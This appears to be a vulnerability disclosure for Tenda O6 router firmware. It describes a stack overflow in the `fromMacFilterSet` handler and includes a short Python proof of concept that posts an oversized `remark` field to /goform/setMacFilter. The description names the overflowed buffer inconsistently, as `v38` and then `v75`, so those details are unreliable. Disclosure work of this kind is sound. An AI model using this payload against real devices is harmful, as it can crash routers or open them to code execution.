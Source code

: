 ## Overview
- Firmware download website: [https://www.tenda.com.cn/download/detail-3861.html](https://www.tenda.com.cn/download/detail-3861.html)
## Affected version
  O6 V3.0 V1.0.0.7(2054)
## Vulnerability details
The  O6 V3.0 V1.0.0.7(2054) firmware has a stack overflow vulnerability in the `fromMacFilterSet` function. Specifically, the variables `v69` and `v70` are assigned the values of the `status` and `remark` parameters from a POST request. Since these parameters are user-controlled, their values can be manipulated to exceed the allocated size of the `v38` array. This is due to the use of the `sprintf` function, which does not perform bounds checking on the input. As a result, a buffer overflow occurs if the combined length of `status` and `remark` surpasses the storage capacity of `v75`, leading to a potential security exploit.
![Vulnerability Function2](./20240805165019.png)
![[Pasted image 20240805165019.png]]
![Vulnerability Function2](./20240805165134.png)

![[Pasted image 20240805165134.png]]

## POC
```python
import requests
ip = "192.168.109.145"
url = "http://" + ip + "/goform/setMacFilter"
payload = b"ab"*3000

data = {"mode": "3", "remark": payload}
response = requests.post(url, data=data)

```
![[Pasted image 20240805163853.png]]
